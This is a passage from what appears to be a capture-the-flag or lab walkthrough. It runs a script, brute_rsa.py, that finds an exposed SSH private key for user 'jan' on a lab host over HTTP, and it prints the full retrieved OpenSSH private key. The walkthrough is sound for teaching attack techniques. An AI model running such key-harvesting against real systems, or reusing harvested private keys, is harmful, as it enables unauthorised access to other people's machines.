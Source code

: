 We give the `script` execute permissions and run it.

```bash
chmod +x brute_rsa.py
./brute_rsa.py
```

Info:
```
[!!!] PRIVATE KEY FOUND for user: jan
URL: http://10.0.4.28:3333/jan/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

We obtain the `private key` for user `jan`.
